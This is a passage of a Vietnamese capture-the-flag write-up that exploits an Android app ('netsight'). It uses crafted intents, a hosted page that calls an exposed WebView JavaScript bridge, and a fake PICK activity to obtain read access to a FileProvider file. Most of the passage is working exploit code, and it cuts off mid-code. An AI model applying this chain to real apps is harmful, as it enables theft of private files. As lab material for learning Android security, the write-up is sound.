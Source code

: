 ### Hiện thực hóa

Đầu tiên cần tạo được intent thỏa mãn các điều kiện như đã phân tích. Intent đó bao gồm host phải được gửi từ `Content Provider`, phần URI sẽ là đường dẫn tới file `.txt`. Và phải set quyền cho URI nên component sẽ là `PickerActivity`. Đây là đoạn code thực hiện (xem kết quả trả về ở logcat).

```java
Intent testIntent = new Intent();
testIntent.setClassName("com.tcpip.netsight","com.tcpip.netsight.PickerActivity");
testIntent.setData(Uri.parse("content://com.tcpip.netsight.FileProvider/bmw.txt"));
Log.d("View Uri", testIntent.toUri(Intent.URI_INTENT_SCHEME));
```
![image](https://hackmd.io/_uploads/Hk6QUnI7kl.png)

Sau khi có được intent như ý muốn, tiến hành host trang web, trang web này có chức năng gọi java code đoạn script  sẽ như sau:

```htmlembedded
<h1>
  Chall 2 Rocev
</h1>

<script type="text/javascript">
  function ShowToast(toast){
    netsight.showToast(toast);
  }
  
  function accessToDeeplink(link){
    netsight.accessDeeplink(link);
  }
  accessToDeeplink("intent://com.tcpip.netsight.FileProvider/bmw.txt#Intent;scheme=content;component=com.tcpip.netsight/.PickerActivity;end");
  
</script>
```
Host xong quay lại app thực hiện trigger vào `WebviewActivity` của app gốc

```java
Intent testIntent = new Intent();
testIntent.setClassName("com.tcpip.netsight", "com.tcpip.netsight.WebviewActivity");
testIntent.putExtra("url", "https://everlasting-sideways-melody.glitch.me");
startActivity(testIntent);
```
Khi `startActivity` ở app vừa tạo thì `WebviewActivity` của app gốc sẽ được trigger, sau khi `getIntent` và `loadUrl` thành công, lúc này `accessDeeplink` trong `WebviewActivity` của app gốc sẽ được gọi vì đoạn js gọi `accessToDeeplink` mà hàm này lại gọi `accessDeeplink` trong java code. Khi được gọi vì đã tạo sẵn component gửi tiếp theo là `PickerActivity` nên `accessDeeplink` sẽ trigger được `PickerActivity`. Khi `PickerActivity` được gọi nó sẽ set quyền cho intent và tiếp tục gửi intent vừa nhận đến một app khác với intent filter là `android.intent.action.PICK`. 



Vậy công việc cuối cùng ở app vừa tạo tạo thêm một activity để nhận intent này.

```java
public class PickerFake extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_picker_fake);
        Log.d("plt", "i'm here");
        Toast.makeText(getApplicationContext(), "hereeeeeee", Toast.LENGTH_LONG).show();

        Intent data = getIntent();

        if(data!= null && (data.getFlags() & Intent.FLAG_GRANT_READ_URI_PERMISSION) != 0){
```